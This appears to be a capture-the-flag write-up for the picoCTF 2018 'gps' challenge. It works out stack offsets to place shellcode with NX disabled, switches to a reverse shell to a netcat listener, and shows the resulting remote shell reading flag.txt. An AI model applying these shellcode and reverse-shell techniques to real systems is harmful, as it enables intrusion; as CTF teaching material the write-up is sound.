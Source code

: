 # gps - Points: 550 - (Solves: 131)

You got really lost in the wilderness, with nothing but your trusty [gps][1].
Can you find your way back to a shell and get the flag?
Connect with nc 2018shell2.picoctf.com 29035
([Source][2]).

[1]: https://2018shell2.picoctf.com/static/5c375c95f714f6f4b59917f69e5927c5/gps
[2]: https://2018shell2.picoctf.com/static/5c375c95f714f6f4b59917f69e5927c5/gps.c

## Hints

Can you make your shellcode randomization-resistant?

---

NOTE:NX is off.

In the source file `gps.c`::

```c
#define GPS_ACCURACY 1337
int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
```

So `-668 <= offset <= 668`.

Also, offset between `stk` @ query_position and `buffer` @ main
when calculating in GDB is

    &buffer - &stk = 0x7fffffffd290 - 0x7fffffffd25b = 0x35     (1)


In the other hand, we have::

    void *ret = &stk + offset;                                  (2)

Hence, substitute `&stk = ret - offset` to (1)::

    => &buffer - (ret - offset) = 0x35
    => offset - 0x35 = ret - &buffer
    => -721 <= ret - &buffer <= 615
    => &buffer - 721 <= ret <= &buffer + 615

Note that buffer size is `0x1000 = 4096`:

This means that we have to place the shellcode after::

    >= buffer + 1336

NOTE:
  We cannot use normal execve /bin/sh shell cause the stdout is not open to
  /bin/sh. Pay attention to command `setbuf(stdout, NULL);`, this command
  causes the /bin/sh cannot receive normal stdout and quit quietly.

  So we now use the reversed shell instead.

## Result

In picoCTF shell server
```sh
nc -l -p 2893
```

In attack server:
```sh
% py solve.py REMOTE
[+] Opening connection to 2018shell2.picoctf.com on port 29035: Done
[*] Sending position: 0x7ffdaf9196ed
[+] Here are your shell!
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```

In picoCTF shell server
```sh
$ nc -l -p 2893
flag.txt
gps
gps.c
xinet_startup.sh
gps_3
uid=1229(gps_3) gid=1230(gps_3) groups=1230(gps_3)
cat flag.txt
picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gvzbnemc}
```
